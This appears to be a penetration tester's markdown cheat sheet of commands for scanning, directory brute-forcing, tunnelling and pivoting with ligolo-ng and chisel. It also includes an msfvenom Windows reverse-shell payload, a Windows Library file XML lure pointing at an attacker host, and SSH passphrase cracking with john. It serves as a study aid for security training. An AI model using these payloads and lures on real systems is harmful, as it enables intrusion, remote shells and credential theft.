 # Tools
___!!MAKE SURE TO HAVE ENOUGH RESOURCES..!!___
## nmap
`sudo nmap -sC -sV -T4 -v -p- -oA 192.168.233.227 192.168.233.227` Full TCP scan with logging \
`sudo nmap -sU -T4 -v -p- 192.168.233.153 -oA nmap/192.168.233.153-UDP` Full UDP SCAN with logging

## gobuster
`gobuster dir -u http://192.168.233.153 -w /usr/share/wordlists/dirb/big.txt -t 5 --output gobuster/192.168.233.153` Gobuster dir scan

## curl
`curl`
- `-H "host: test.com"` add header, for testing vhosts\
- `--insecure` ignore certificate issues

## ssh
`ssh`
- `-R 1337:192.168.1.1:3389` Create listening port on the server forwarding to IP:3389\
- `-L 1337:192.168.1.1:3389` Create listening prot lon the local client forwarding to IP:3389

## SWAKS
Swiss Army Knife for SMTP\
- `--to mail@mail.com` Send to address
- `--server` Server to use

## Chisel
`chisel`
- `client` for client mode
- `server` for server mode
Note: issues with starting chisel client when using the pre-compiled version from Kali. Dowloaded release from github does work.\

## ExploitDB
`searchsploit -m XXXXX ` to "mirror" a vulnerability from ExploitDB

## msfvenom
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.186 LPORT=1337 -f exe > rev.exe ` Create windows reverse shell executable

## ligolo-ng
releases for proxy and agent on Github: https://github.com/nicocha30/ligolo-ng

__Start proxy:__\
`sudo ip tuntap add user kali mode tun ligolo`\
`sudo ip link set ligolo up`

`./proxy -selfcert`

__Start ligolo agent:__\
`.\ligolo-agent.exe -connect xxx.xxx.xxx.xxx:11601 -ignore-cert`

__Setup tunnel over proxy:__\
`session` Select session\
`ifconfig` -- Show ip info\
`sudo ip route add 192.168.0.0/24 dev ligolo` Create route ( *In Linux itself* )  
`start` Start tunnel\

--Network is now reachable through proxy--

`listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4321 --tcp` Create a listener on the agent, listening on 0.0.0.0 port 1234 and forwarding to proxy host on port 4321
`listener_list` to show all listeners

## Other usefull resources:
https://crackstation.net/


## WIndows Library file exploit
**NOTE:** After executing windows **optimizes the file** which could make it **unusable** on another machine.
```xml
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.177</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
```

## Cracking SSH keyphrase
`ssh2john sample.key > sample.hash`
`john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`

## Alternative to BURP
Zed Attack Proxy
